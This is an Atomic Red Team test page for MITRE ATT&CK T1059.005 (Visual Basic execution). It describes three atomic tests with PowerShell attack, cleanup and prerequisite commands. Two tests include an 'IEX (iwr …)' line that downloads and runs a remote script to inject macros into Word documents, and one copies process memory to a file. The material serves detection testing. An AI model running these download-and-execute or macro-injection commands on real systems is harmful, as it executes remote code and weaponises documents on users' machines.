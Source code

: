 # T1059.005 - Visual Basic
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1059/005)
<blockquote>Adversaries may abuse Visual Basic (VB) for execution. VB is a programming language created by Microsoft with interoperability with many Windows technologies such as [Component Object Model](https://attack.mitre.org/techniques/T1559/001) and the [Native API](https://attack.mitre.org/techniques/T1106) through the Windows API. Although tagged as legacy with no planned future evolutions, VB is integrated and supported in the .NET Framework and cross-platform .NET Core.(Citation: VB .NET Mar 2020)(Citation: VB Microsoft)

Derivative languages based on VB have also been created, such as Visual Basic for Applications (VBA) and VBScript. VBA is an event-driven programming language built into Microsoft Office, as well as several third-party applications.(Citation: Microsoft VBA)(Citation: Wikipedia VBA) VBA enables documents to contain macros used to automate the execution of tasks and other functionality on the host. VBScript is a default scripting language on Windows hosts and can also be used in place of [JavaScript](https://attack.mitre.org/techniques/T1059/007) on HTML Application (HTA) webpages served to Internet Explorer (though most modern browsers do not come with VBScript support).(Citation: Microsoft VBScript)

Adversaries may use VB payloads to execute malicious commands. Common malicious usage includes automating execution of behaviors with VBScript or embedding VBA content into [Spearphishing Attachment](https://attack.mitre.org/techniques/T1566/001) payloads.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Visual Basic script execution to gather local computer information](#atomic-test-1---visual-basic-script-execution-to-gather-local-computer-information)

- [Atomic Test #2 - Encoded VBS code execution](#atomic-test-2---encoded-vbs-code-execution)

- [Atomic Test #3 - Extract Memory via VBA](#atomic-test-3---extract-memory-via-vba)


<br/>

## Atomic Test #1 - Visual Basic script execution to gather local computer information

auto_generated_guid: 1620de42-160a-4fe5-bbaf-d3fef0181ce9

Visual Basic execution test, execute vbscript via PowerShell.

When successful, system information will be written to $env:TEMP\T1059.005.out.txt.
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| vbscript | Path to sample script | String | PathToAtomicsFolder&#92;T1059.005&#92;src&#92;sys_info.vbs|


#### Attack Commands: Run with `powershell`! 


```powershell
cscript #{vbscript} > $env:TEMP\T1059.005.out.txt
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\sys_info.vbs -ErrorAction Ignore
Remove-Item $env:TEMP\T1059.005.out.txt -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Sample script must exist on disk at specified location (#{vbscript})
##### Check Prereq Commands:
```powershell
if (Test-Path #{vbscript}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.005/src/sys_info.vbs" -OutFile "$env:TEMP\sys_info.vbs"
New-Item -ItemType Directory (Split-Path #{vbscript}) -Force | Out-Null
Copy-Item $env:TEMP\sys_info.vbs #{vbscript} -Force
```




<br/>
<br/>

## Atomic Test #2 - Encoded VBS code execution

auto_generated_guid: e8209d5f-e42d-45e6-9c2f-633ac4f1eefa

This module takes an encoded VBS script and executes it from within a malicious document. By default, upon successful execution
a message box will pop up displaying "ART T1059.005"

A note regarding this module, due to the way that this module utilizes "ScriptControl" a 64bit version of Microsoft Office is required.
You can validate this by opening WinWord -> File -> Account -> About Word
**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1059.005\src\T1059.005-macrocode.txt" -officeProduct "Word" -sub "Exec"
```

#### Cleanup Commands:
```powershell
Get-WmiObject win32_process | Where-Object {$_.CommandLine -like "*mshta*"}  | % { "$(Stop-Process $_.ProcessID)" } | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: The 64-bit version of Microsoft Office must be installed
##### Check Prereq Commands:
```powershell
try {
  $wdApp = New-Object -COMObject "Word.Application"
  $path = $wdApp.Path
  Stop-Process -Name "winword"
  if ($path.contains("(x86)")) { exit 1 } else { exit 0 }
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word (64-bit) manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #3 - Extract Memory via VBA

auto_generated_guid: 8faff437-a114-4547-9a60-749652a03df6

This module attempts to emulate malware authors utilizing well known techniques to extract data from memory/binary files. To do this
we first create a string in memory then pull out the pointer to that string. Finally, it uses this pointer to copy the contents of that
memory location to a file stored in the $env:TEMP\atomic_t1059_005_test_output.bin.
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ms_product | Maldoc application Word | String | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1" -UseBasicParsing) 
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1059.005\src\T1059_005-macrocode.txt" -officeProduct "Word" -sub "Extract"
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:TEMP\atomic_t1059_005_test_output.bin" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
